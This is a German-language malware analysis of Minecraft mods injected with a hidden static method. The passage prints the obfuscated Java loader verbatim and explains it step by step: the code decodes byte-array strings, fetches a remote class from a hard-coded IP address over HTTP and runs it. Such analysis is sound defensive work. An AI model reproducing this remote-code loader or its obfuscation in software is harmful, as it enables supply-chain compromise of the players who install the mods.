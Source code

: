 Betroffene Mods oder Plugins haben eine neue `static void`-Methode in ihre Hauptklasse eingefügt, und ein Aufruf dieser Methode wird in den statischen Initialisierer dieser Klasse eingefügt. Für DungeonZ heißt die Methode `_d1385bd3c36f464882460aa4f0484c53` und existiert in `net.dungeonz.DungeonzMain`. Für Skyblock Core heißt die Methode `_f7dba6a3a72049a78a308a774a847180` und ist in `com.bmc.coremod.BMCSkyblockCore` eingefügt. Für HavenElytra wird der Code direkt in den sonst nicht verwendeten statischen Initialisierer von `valorless.havenelytra.HavenElytra` eingefügt.

Der Code der Methode ist verschleiert, indem `new String(new byte[]{...})` anstelle von String-Literalen verwendet wird.

Aus dem D3SL-Beispiel von "Create Infernal Expansion Plus", einer nachgeahmten Version von "Create Infernal Expansion Compat" mit in die Haupt-Mod-Klasse eingefügter Malware:
```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

Dies:
1. Erzeugt einen `URLClassLoader` mit der URL `http://[85.217.144.130:8080]/dl` ([shodan](https://www.shodan.io/host/85.217.144.130))
2. Lädt die Klasse `Utility` aus dem Classloader und holt sich den Code aus dem Internet
3. Ruft die Methode `run` auf `Utility` auf und übergibt ein String-Argument, das für jeden infizierten Mod (!) unterschiedlich ist. Z.B..
    * Skyblock Core: "`-74.-10.78.-106.12`"
    * Dungeonz: "`114.-18.38.108.-100`"
    * HavenElytra: "`-114.-18.38.108.-100`"
    * Vault Integrations: "`-114.-18.38.108.-100`"

Die übergebenen Ziffern werden von Stufe 1 als Bytes geparst und in eine Datei namens ".ref" geschrieben. Sie scheinen eine Möglichkeit für den Autor zu sein, Infektionsquellen zu verfolgen.

Die Erstellung des Classloaders ist fest mit dieser URL kodiert und verwendet nicht die Cloudflare-URL, die Stage 1 verwendet. Da diese IP jetzt offline ist, bedeutet dies, dass die Nutzdaten der Stufe 0, die uns derzeit bekannt sind, nicht mehr funktionieren.
